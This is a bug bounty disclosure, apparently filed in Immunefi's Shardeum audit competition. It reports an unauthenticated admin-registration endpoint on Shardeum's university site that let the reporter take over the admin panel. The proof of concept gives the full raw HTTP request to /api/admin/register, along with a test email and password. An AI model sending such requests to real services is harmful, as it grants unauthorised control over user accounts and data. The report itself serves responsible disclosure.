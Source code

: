 # #35452 \[W\&A-High] Admin Panel Accessed

**Submitted on Sep 23rd 2024 at 09:52:08 UTC by @blocksmith0 for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35452
* **Report Type:** Websites and Applications
* **Report severity:** High
* **Target:** https://immunefi.com
* **Impacts:**
  * Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description

## Vulnerability Details

I was able to completely takeover university admin panel on \`dash.university.shardeum.org\` this gives me full access to block unblock almost 20K users, view their data I also have full access to all courses to delete them completely also I can delete other admin accounts as well.

## Proof of Concept

## Proof of Concept

The was possible because the following admin registration API endpoint was available which enabled me to register an admin account and then login to that admin account.

To register an admin account do a POST request to the following HTTP request with your email and password.

\`\`\` POST /api/admin/register HTTP/1.1 Host: api.university.shardeum.org Connection: close sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://university.shardeum.org Sec-Fetch-Site: same-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://university.shardeum.org/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 If-None-Match: W/"b49-ha6cnPGQKUWujk1808h938ZMeIo" Content-Length: 58 Content-Type: application/json

{"adminEmail":"powshifu5@gmail.com","password":"teset456"}\` \`\`\` To confirm the PoC please check the admin I have registered with the email \`powshifu5@gmail.com\` on \`administrators\` section

Please see the screenshots for more info.
